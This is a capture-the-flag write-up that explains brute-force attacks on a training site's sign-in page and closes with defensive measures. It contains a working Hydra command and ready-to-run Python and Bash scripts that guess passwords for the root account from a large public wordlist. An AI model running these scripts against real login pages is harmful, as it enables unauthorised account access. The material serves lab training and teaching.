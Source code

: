 # 💪 Bruteforce

## 📖 Definition

A **brute-force attack** is a method used to gain unauthorized access to a system, network, or encrypted data by systematically trying all possible combinations of credentials or keys until the correct one is found. This type of attack relies on sheer computational power and persistence, making it one of the simplest, yet most resource-intensive and time-consuming, attack methods.

**Key Characteristics of a Brute-Force Attack:**

1. **Trial-and-Error Approach:** Attackers use software to automatically generate and test millions or billions of potential passwords, usernames, or encryption keys, often using algorithms that speed up this trial-and-error process.

2. **No Subtlety or Sophistication:** Unlike other types of cyber attacks that may rely on exploiting specific vulnerabilities, brute-force attacks don't require intricate knowledge of the target system. The approach is purely a numbers game: try everything until something works.

3. **Dependent on Computational Power:** The speed and feasibility of a brute-force attack are heavily influenced by the processing power available to the attacker. More powerful systems (or botnets of compromised machines working together) can test combinations faster.

4. **Types of Brute-Force Attacks:**

	- **Simple Brute-Force Attack:** Every possible combination of characters is tested, regardless of the target's characteristics.
	- **Dictionary Attack:** Attackers use a predefined list of likely passwords, often based on commonly used passwords or information known about the target.
	- **Hybrid Attack:** Combines a dictionary attack with variations on each entry, such as adding numbers or symbols to commonly used words.

## 🔍 Discovery

On the **Signin** page, we try several `username:password` combinations after realizing that the `username` and `password` are directly filled in the URL in this format: `username=<username>&password=<password>`.
So, at this point, we can code a little Python script to test all the possibilities with the `root` username. Why with this username? Because we tested it first but, in fact, whatever it is, you'll get the flag if the password is good. For the dictionary, we use [this one](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt) from GitHub.

## 🏁 Flag

**1. The manual way:**

1. Take the passwords list on [this site](https://datanews.levif.be/actualite/le-top-25-des-mots-de-passe-les-plus-courants-et-les-plus-faibles/)
2. Go on the **Signin** page
3. In the username field, type whatever you want
4. In the password field, test all the passwords in the list

**2. Using Hydra:**

1. Download and store the dictionary by running:

```bash
curl -o dictionary https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt
```

2. Find the password by running:

```bash
hydra -l root -P dictionary -F -V "<ip>" http-get-form '/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif'
```

## 💡 Solutions

We provide two solutions: a Python and a Bash script.

**script.py | Usage: `python script.py \<ip\>`**

```Python
import requests, sys, subprocess

password_list_url = "https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt"
username = "root"

def get_password_list(url):
	response = requests.get(url)
	return response.text.splitlines()

def run_curl_command(ip, password):
	curl_command = f'curl -s "http://{ip}/index.php?page=signin&username={username}&password={password}&Login=Login#"'
	grep_command = "grep flag | awk -F': | <' '{print \"\\nThe flag is: \"$2}'"
	
	full_command = f"{curl_command} | {grep_command}"
	
	try:
		result = subprocess.check_output(full_command, shell=True, stderr=subprocess.PIPE)
		return result.decode().strip()
	except subprocess.CalledProcessError:
		return None

def bruteforce(ip):
	try:
		response = requests.get(f"http://{ip}", timeout=3)
		response.raise_for_status()
	except requests.exceptions.RequestException as e:
		print("Connection failed. Bad IP or network issue!")
		return False

	password_list = get_password_list(password_list_url)
	for password in password_list:
		password = password.strip()
		
		flag = run_curl_command(ip, password)
		
		if flag:
			print(f"Success! Username: {username} Password: {password}")
			print(flag)
			return True
	
	print("Password not found in the list.")
	return False

def main():
	if len(sys.argv) != 2:
		print("Usage: python script.py <ip>")
		sys.exit(1)
	bruteforce(sys.argv[1])

if __name__ == "__main__":
	main()
```

It first checks if the provided IP address is reachable by sending a `GET` request. It then downloads a list of common passwords from a specified URL and iterates through each password, attempting to log in with the username `root`. For each password, it constructs a `curl` command to attempt a login on the target site, and pipes the result to `grep` to check if the word "flag" appears in the response, indicating a successful login. If the word "flag" is found, the script prints the valid username, password, and the extracted flag, then stops. If no valid password is found after testing all options, it prints a failure message.

**script.sh | Usage: `./script \<ip\>`**

```bash
#!/bin/bash

if [ "$#" -ne 1 ]; then
	echo "Usage: ./script.sh <ip>"
	exit 1
fi

ip=$1

function exec_hydra {
	curl -o dictionary https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt
	output=$(hydra -l root -P dictionary -F -V "$ip" http-get-form '/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F=images/WrongAnswer.gif')
	password=$(echo "$output" | grep -oP 'password: \K\S+')
	rm dictionary
}

if command -v hydra &> /dev/null; then
	echo "Hydra is installed."
	exec_hydra
else
	echo "Hydra is not installed."
	echo "Installation..."
	git clone https://github.com/vanhauser-thc/thc-hydra.git
	cd thc-hydra
	./configure --prefix=$HOME/.local
	make
	make install
	export PATH=$HOME/.local/bin:$PATH
	source ~/.bashrc
	source ~/.zshrc
	exec_hydra
fi

curl "http://$ip/index.php?page=signin&username=root&password=$password&Login=Login#" | grep flag | awk -F': | <' '{print "\nThe flag is: "$2}'
```

It first checks if the provided IP address argument is supplied. If not, it prints a usage message and exits. The script then verifies if Hydra is installed by checking for the `hydra` command. If Hydra is found, it downloads a common password dictionary using `curl`, runs Hydra with the password list to brute-force the login page, and extracts the password found from the Hydra output using `grep`. The password is stored in a variable, and the dictionary file is deleted afterward. If Hydra is not installed, the script clones the Hydra repository from GitHub, compiles, installs it locally, and sets the necessary environment variables before running Hydra. Finally, the script sends a `curl` request with the found password to the login page and extracts the flag from the response using `grep` and `awk`, printing the flag if found.

## 🔧 Patch

Many defensive measures can be taken, but here are the main ones:

- **Password Complexity:** Requiring complex, long passwords makes brute-forcing more time-consuming.
- **Account Lockouts:** Locking an account after several failed attempts can thwart brute-force efforts.
- **Multi-Factor Authentication (MFA):** Adding an additional layer of security (e.g., a verification code sent to the user) can stop a brute-force attack even if a password is successfully guessed.
- **Rate Limiting and Captchas:** These limit the number of attempts an attacker can make in a given timeframe, slowing down or deterring brute-force attempts.

To better understand the importance to have a stong password, here is a chart to estimate the time it takes a hacker to brute force your password in 2024:

![](https://images.squarespace-cdn.com/content/5ffe234606e5ec7bfc57a7a3/1719499399309-7FRIR5QNH5P4VHC1AGGP/Hive+Systems+Password+Table+-+2024+Rectangular.png?format=1500w&content-type=image%2Fpng)
